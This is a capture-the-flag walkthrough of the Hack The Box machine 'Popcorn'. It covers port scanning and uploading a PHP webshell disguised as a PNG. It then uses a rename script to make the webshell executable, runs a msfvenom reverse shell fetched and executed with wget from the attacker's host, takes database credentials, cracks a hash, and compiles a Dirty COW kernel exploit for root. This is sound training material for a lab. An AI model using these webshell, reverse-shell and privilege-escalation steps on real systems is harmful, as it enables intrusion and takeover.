







# [Popcorn](https://app.hackthebox.eu/machines/4)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.6 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.6 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.6
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.6
```

The TCP quick scan returns the following:


Start the following web scanner:

```bash
nikto -h http://10.10.10.6/ -C all --maxtime=120s --output=nikto.txt
```


Browse to the site manually:

```bash
firefox http://10.10.10.6/
```



Site looks like a default installation. Start the following directory scanner looking for PHP pages:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u http://10.10.10.6/ &
```

This scan returns some interesting results:

```
/index (Status: 200)
/test (Status: 200)
/test.php (Status: 200)
/torrent (Status: 200)
/rename (Status: 200
```

`/test` and `test.php` shows the following:



The may be helpful later. `/torrent` shows the following:


Maybe there is an exploit for this? `/rename` has some more interesting output:


Maybe this is an LFI or RFI? Try an RFI:

```bash
# start a server to catch the request
sudo python3 -m http.server 80
# try to download the file
curl -s -G --data 'filename=http://10.10.14.27/test.php&newfilename=test.php' http://10.10.10.6/rename/index.php
```

But this returns the following error:


Use this as an LFI then:

```bash
curl -s -G --data 'filename=/etc/passwd&newfilename=passwd' http://10.10.10.6/rename/index.php
```

But this returns a new error:


That is weird. `/etc/passwd` is usually world-readable? Next look for an exploit for the torrent site:


This looks juicy:

- https://www.exploit-db.com/exploits/11746

After looking at it, the exploit is rather unclear... It mentions uploading a shell through an HTTP POST request to `http://10.10.10.6/torrent/torrents.php?mode=upload`. To test this, an account is needed, so register for one:



Then login with the new account:


Then make a PHP shell to upload:

```bash
echo '<?php echo shell_exec($_REQUEST["c"]); ?>' > bubba.php
```



However, uploading this returns the following:


Trying to look online for the PHP source code does not work:

- https://web.archive.org/web/20070702194234/http://www.myanmartorrents.com/forum/downloads.php?cat=1
- https://unix.oppserver.net/bt/indexer/t-xore/Torrent%20Hoster%20V2_0%20-%20Filesoup.htm

Maybe the trick is to upload a torrent file and then then use the `/rename/index.php` tool to rename the file to a PHP shell? Make a torrent and upload it:

```bash
sudo apt-get install ctorrent
mkdir bubba
echo '<?php echo shell_exec($_REQUEST["c"]); ?>' > bubba/bubba.php
ctorrent -t -u "http://bubba:6969/announce" -s bubba.torrent bubba
```

But uploading this torrent does not provide a clear link to where it was uploaded on the target? However, after uploading the torrent and viewing it to look for links, there seems a way to upload an image:



Try uploading the `bubba.php` webshell as `bubba.png`. Now the page shows the following broken image link:

- If the upload fails, try catching the request in BurpSuite and modifying MIME header or add PNG magic bytes to the data to bypass backend filters.


Hovering over the link shows the following:

```
http://10.10.10.6/torrent/thumbnail.php?gd=2&src=./upload/908a2faca881266935b31058232c4fa5a191b92d.png&maxw=96
```

Maybe this is the file to try and rename? Try and make the PNG file into a PHP file:

- The `/var/www/torrent/` is guessed from the error output from `/var/www/rename/index.php`

```bash
curl -s -G --data 'filename=/var/www/torrent/upload/908a2faca881266935b31058232c4fa5a191b92d.png&newfilename=/var/www/torrent/upload/bubba.php' http://10.10.10.6/rename/index.php
```

And this does not return an error! Try to execute code:

```bash
curl -s -G --data 'c=id' http://10.10.10.6/torrent/upload/bubba.php
```


Nice! Use this to get a dedicated reverse shell:

```bash
# generate payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
# start listener
rlwrap nc -nvlp 6969
# host payload
sudo python3 -m http.server 80
# get target downloader installed
curl -s -G --data-urlencode 'c=(which wget || which curl)' http://10.10.10.6/torrent/upload/bubba.php
# send request to download and execute
curl -s -G --data-urlencode 'c=wget -O /tmp/bubba.elf http://10.10.14.27/bubba.elf && chmod +x /tmp/bubba.elf && /tmp/bubba.elf' http://10.10.10.6/torrent/upload/bubba.php
```

And this returns a shell with `user.txt`:



After looking around the system, it seems like there is a MySQL database running on `127.0.0.1:3306`. Maybe there are user accounts in the database that have interesting passwords to crack? Looking for a PHP config file with passwords leads to `/var/www/torrent/config.php`:

```php
<?php

  //rename this file to config.php
  /* turn on verbose error reporting (15) to see all warnings and errors */
  error_reporting(15);

  //define a generic object to hold all the configuration variables
  class object {};

  //declare an instance of the generic object
  $CFG = new object;
  //declare root directory
  $CFG->dirroot     = dirname(__FILE__);

  //Edit This For TORRENT HOSTER Database
  //database configuration
  $CFG->host = "localhost";
  $CFG->dbName = "torrenthoster";	//db name
  $CFG->dbUserName = "torrent";    //db username
  $CFG->dbPassword = "SuperSecret!!";	//db password

	$dbhost 	= $CFG->host;
	$dbuser 	= $CFG->dbUserName;
	$dbpass 	= $CFG->dbPassword;
	$database 	= $CFG->dbName;
```

Taking the credentials `torrent/SuperSecret!!`, connect to the database:

```bash
mysql -utorrent -p'SuperSecret!!' -h localhost
```

From here, the goal is to find passwords or hashes of passwords for user accounts. The following MySQL requests build off each other to get to the final query that drops a table of user accounts:

```mysql
SELECT schema_name FROM information_schema.schemata;
SELECT table_name FROM information_schema.tables WHERE table_schema = 'torrenthoster';
SELECT column_name FROM information_schema.columns WHERE table_name = 'users';
SELECT userName,password FROM torrenthoster.users;
```


The password for `Admin` may be useful. The hash looks like MD5. Try cracking it:

```bash
echo 'd5bfedcee289e5e05b86daad8ee3e2e2' > web.hash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hashcat -m 0 -a 0 --quiet --potfile-disable web.hash rockyou.txt
```

But this does not produce any wins... Neither does https://crackstation.net/... 

From here, looking around the system did not show anything interesting... Look for a kernel exploit?

---

After reading a few other write-ups, it seems like another PE pivot point was the file `/home/george/.cache/motd.legal-displayed`, which maps to a vulnerable software package `Linux PAM 1.1.0`:

- https://www.exploit-db.com/exploits/14339

Finding this exploit is possible through `searchsploit motd`:


Verify versions with `dpkg -l | grep pam`:


---

Get the kernel version:



A kernel this old is vulnerable to the following common Linux kernel exploit:

- https://www.exploit-db.com/exploits/40839

The target has GCC installed, so download and transfer the binary to the target to compile:

```bash
# on kali, download and host the exploit
searchsploit -m 40839
sudo python3 -m http.server 80
# on target, download and compile exploit
wget -O /tmp/40839.c http://10.10.14.27/40839.c
gcc -pthread /tmp/40839.c -o /tmp/40839 -lcrypt
```

But this generates the following error

```
In file included from /usr/include/bits/fcntl.h:24,
                 from /usr/include/fcntl.h:34,
                 from /tmp/40839.c:31:
/usr/include/sys/types.h:147:20: error: stddef.h: No such file or directory
```

Try finding `stddef.h`:

```bash
find / -iname stddef.h 2>/dev/null
```

Then help GCC find its own files:

```bash
gcc -pthread /tmp/40839.c -o /tmp/40839 -lcrypt -I/usr/lib/gcc/i486-linux-gnu/4.4/include/
```

But this generates a new error:

```
collect2: cannot find 'ld'
```

find this on the target and put it in a location GCC can find:

```bash
which ld
cp /usr/bin/ld /tmp/ld
chmod +x /tmp/ld
export PATH=$PATH:/tmp
gcc -pthread /tmp/40839.c -o /tmp/40839 -lcrypt -I/usr/lib/gcc/i486-linux-gnu/4.4/include/
```

After this, the exploit compiles and runs to give a `root` shell:


